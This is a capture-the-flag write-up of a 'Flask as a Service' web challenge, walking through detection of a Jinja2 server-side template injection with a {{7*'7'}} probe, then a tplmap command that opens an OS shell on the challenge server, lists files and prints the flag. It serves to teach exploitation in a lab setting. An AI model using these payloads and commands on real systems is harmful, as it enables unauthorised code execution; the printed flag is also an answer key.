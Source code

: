 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

```http
POST /science HTTP/1.1 
Host: web3.tamuctf.com 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate
Referer: http://web3.tamuctf.com/  
Content-Type: application/x-www-form-urlencoded 
Content-Length: 15 
Connection: close  
Upgrade-Insecure-Requests: 1 

chem1=a&chem2=b  


HTTP/1.1 200 OK   
Server: nginx/1.15.8  
Date: Mon, 04 Mar 2019 13:33:53 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 272  
Connection: close  

\<html>
        \<div style="text-align:center">   
        \<h3>The result of combining a and b is:\</h3>\</br> 
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div>   
        \</html>
```

Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}} <br />  
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is: <br />  
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell <br />  
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

```
[+] Tplmap 0.5        
  Automatic Server-Side Template Injection Detection and Exploitation Tool
    
[+] Testing if POST parameter 'chem1' is injectable 
[+] Jinja2 plugin is testing rendering with tag '{{*}}'   
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'   
[+] Tplmap identified the following injection point:  

  POST parameter: chem1     
  Engine: Jinja2     
  Injection: {{\*}}    
  Context: text     
  OS: posix-linux2     
  Technique: render    
  Capabilities:   
   Shell command execution: ok     
   Bind and reverse shell: ok    
   File write: ok   
   File read: ok    
   Code evaluation: ok, python code   

[+] Run commands on the operating system.  
posix-linux2 $ ls  
config.py
entry.sh  
flag.txt 
requirements.txt   
serve.py 
tamuctf   
posix-linux2 $ cat flag.txt 
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3} 
```
